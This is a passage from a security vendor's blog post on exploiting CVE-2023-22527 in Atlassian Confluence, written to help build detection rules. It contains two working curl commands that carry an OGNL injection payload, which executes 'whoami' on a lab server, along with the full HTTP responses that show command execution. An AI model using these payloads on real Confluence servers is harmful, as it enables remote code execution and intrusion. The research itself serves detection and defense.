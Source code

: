 GET:\\n\\n\`\`\`sh\\nalbinolobster@mournland:~$ curl -kvs -G -o /dev/null http://10.9.49.76:8090/template/aui/text-inline.vm \\\\n> --data-urlencode 'label=\\u0027+#request.get(\\u0027.KEY\_velocity.struts2.context\\u0027).internalGet(\\u0027ognl\\u0027).findValue(#parameters.p1,{})+\\u0027' \\\\n> --data-urlencode 'p1=@org.apache.struts2.ServletActionContext@getResponse().setHeader("Cmd-Ret",(new freemarker.template.utility.Execute()).exec({"whoami"}))'\\n\* Trying 10.9.49.76:8090...\\n\* TCP\_NODELAY set\\n\* Connected to 10.9.49.76 (10.9.49.76) port 8090 (#0)\\n> GET /template/aui/text-inline.vm?label=%5Cu0027%2B%23request.get%28%5Cu0027.KEY\_velocity.struts2.context%5Cu0027%29.internalGet%28%5Cu0027ognl%5Cu0027%29.findValue%28%23parameters.p1%2C%7B%7D%29%2B%5Cu0027&p1=%40org.apache.struts2.ServletActionContext%40getResponse%28%29.setHeader%28%22Cmd-Ret%22%2C%28new%20freemarker.template.utility.Execute%28%29%29.exec%28%7B%22whoami%22%7D%29%29 HTTP/1.1\\n> Host: 10.9.49.76:8090\\n> User-Agent: curl/7.68.0\\n> Accept: \*/\*\\n>\\n\* Mark bundle as not supporting multiuse\\n< HTTP/1.1 200\\n< Cache-Control: no-store\\n< Expires: Thu, 01 Jan 1970 00:00:00 GMT\\n< X-XSS-Protection: 1; mode=block\\n< X-Content-Type-Options: nosniff\\n< X-Frame-Options: SAMEORIGIN\\n< Content-Security-Policy: frame-ancestors 'self'\\n< X-Confluence-Request-Time: 1709669510258\\n< Set-Cookie: JSESSIONID=4CABC119C5C70CC2C745D4107663F45C; Path=/; HttpOnly\\n< Cmd-Ret: nt authority\\network service \\n< X-Accel-Buffering: no\\n< Content-Type: text/html;charset=UTF-8\\n< Content-Language: en-US\\n< Transfer-Encoding: chunked\\n< Date: Tue, 05 Mar 2024 20:11:50 GMT\\n<\\n{ \[7656 bytes data\]\\n\* Connection #0 to host 10.9.49.76 left intact\\n\`\`\`\\n\\nAnd it can be thrown with the parameters in the POST URI:\\n\\n\`\`\`sh\\nalbinolobster@mournland:~$ curl -kvs -X POST -G -o /dev/null http://10.9.49.76:8090/template/aui/text-inline.vm \\\\n> --data-urlencode 'label=\\u0027+#request.get(\\u0027.KEY\_velocity.struts2.context\\u0027).internalGet(\\u0027ognl\\u0027).findValue(#parameters.p1,{})+\\u0027' \\\\n> --data-urlencode 'p1=@org.apache.struts2.ServletActionContext@getResponse().setHeader("Cmd-Ret",(new freemarker.template.utility.Execute()).exec({"whoami"}))'\\n\* Trying 10.9.49.76:8090...\\n\* TCP\_NODELAY set\\n\* Connected to 10.9.49.76 (10.9.49.76) port 8090 (#0)\\n> POST /template/aui/text-inline.vm?label=%5Cu0027%2B%23request.get%28%5Cu0027.KEY\_velocity.struts2.context%5Cu0027%29.internalGet%28%5Cu0027ognl%5Cu0027%29.findValue%28%23parameters.p1%2C%7B%7D%29%2B%5Cu0027&p1=%40org.apache.struts2.ServletActionContext%40getResponse%28%29.setHeader%28%22Cmd-Ret%22%2C%28new%20freemarker.template.utility.Execute%28%29%29.exec%28%7B%22whoami%22%7D%29%29 HTTP/1.1\\n> Host: 10.9.49.76:8090\\n> User-Agent: curl/7.68.0\\n> Accept: \*/\*\\n>\\n\* Mark bundle as not supporting multiuse\\n< HTTP/1.1 200\\n< Cache-Control: no-store\\n< Expires: Thu, 01 Jan 1970 00:00:00 GMT\\n< X-XSS-Protection: 1; mode=block\\n< X-Content-Type-Options: nosniff\\n< X-Frame-Options: SAMEORIGIN\\n< Content-Security-Policy: frame-ancestors 'self'\\n< X-Confluence-Request-Time: 1709669588783\\n< Set-Cookie: JSESSIONID=B96DB876DCA328DEDC0073326B666805; Path=/; HttpOnly\\n< Cmd-Ret: nt authority\\network service \\n< X-Accel-Buffering: no\\n< Content-Type: text/html;charset=UTF-8\\n< Content-Language: en-US\\n< Transfer-Encoding: chunked\\n< Date: Tue, 05 Mar 2024 20:13:09 GMT\\n<\\n{ \[7656 bytes data\]\\n\* Connection #0 to host 10.9.49.76 left intact\\n\`\`\`\\n\\nAll of which has to be accounted for in the ruleset.\\n\\n## Conclusion\\n\\nThere's more than one way to reach Rome. While using \`freemarker.template.utility.Execute\` appears to be the popular way of exploiting CVE-2023-22527, other more stealthy paths generate different indicators. Of particular interest is the in-memory webshell, which had a pre-existing variant \*before\* we published this blog, and that variant appears to have been deployed \[in the wild\](https://www.shodan.io/search?query=%22X-Cmd-Result%22+%22X-Confluence-Request-Time%22). Defenders and attackers alike should consider \[these variants\](https://github.com/vulncheck-oss/cve-2023-22527/tree/main) (and how they apply to other OGNL attacks).\\n\\n\\n## About VulnCheck\\n\\nThe VulnCheck Initial Access team is always looking to advance the state of attack on initial access vulnerabilities like CVE-2023-22527. For more research like this, see our blogs, \[PaperCut Exploitation\](https://vulncheck.com/blog/papercut-rce) and \[Fileless Remote Code Execution on Juniper Firewalls\\n\](https://vulncheck.com/blog/juniper-cve-2023-36845)\\n\\nSign up to our website today to get free access to our \[VulnCheck KEV\](https://vulncheck.com/kev) and request a trial of our \[Initial Access Intelligence\](https://vulncheck.com/product/initial-access-intelligence) and \[Exploit & Vulnerability Intelligence\](https://vulncheck.com/product/exploit-intelligence) products.

#### [Source](https://vulncheck.com/blog/confluence-dreams-of-shells)

<br/>
---
